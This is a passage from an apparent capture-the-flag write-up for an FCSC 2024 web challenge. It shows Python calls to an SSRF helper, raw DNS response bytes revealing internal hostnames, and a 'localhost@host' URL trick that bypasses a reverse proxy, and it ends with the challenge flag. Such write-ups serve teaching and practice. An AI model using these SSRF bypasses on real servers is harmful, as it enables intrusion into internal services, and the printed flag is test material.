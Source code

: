 ```python
for k, v in mapping.items():
	options = options.replace(k, v)

ssrf(
    where='pong',
    options=urlenc(options)
)
```

*Output:*
```bash
$ python3 pong_lab.py
HTTP/1.1 200 OK
Date: Fri, 12 Apr 2024 14:02:26 GMT
Server: Apache/2.4.59 (Unix)
X-Powered-By: PHP/8.2.17
Content-Length: 148
Connection: close
Content-Type: text/html; charset=UTF-8

\x00\x92n\xdb\x84\xa0\x00\x01\x00\x05\x00\x00\x00\x00\x08fcsc2024\x02fr\x00\x00\xfc\x00\x01\x08frontend\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x02\x04pong\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x04\x03red\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x06\x06listen\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x07\x0bfake_domain\xc0\x0c\x00\x01\x00\x01\x00\x00\x00\x00\x00\x04\n\x00\x00\x05
```

One last small modification is to change: ``localhost`` to ``localhost@127.0.0.1`` because *localhost* doesn't resolve *127.0.0.1* on the remote server due to the reverse proxy.

If you run the query on the server, you get the following sub-domain:
```
37b9da922f6360e301faeff19bac866c1a042d4a
```

Via ssrf, you can go to ``37b9da922f6360e301faeff19bac866c1a042d4a.fcsc.fr:3000``.

```python
ssrf(
    where=f'localhost@37b9da922f6360e301faeff19bac866c1a042d4a.fcsc2024.fr:3000{redos}',
    options={}
)
```

*Output*: 
```
HTTP/1.1 200 OK
date: Fri, 12 Apr 2024 14:16:24 GMT
server: Apache/2.4.58 (Unix)
x-powered-by: PHP/8.3.4
content-length: 70
content-type: text/html; charset=UTF-8
x-robots-tag: noindex, nofollow, nosnippet, noarchive, nocache, noodp, noyaca
connection: close

FCSC{d8af233176d6ca50598a48fc47d8cadeae37b3d35a641efc1ad7777c86fe28a9}
```
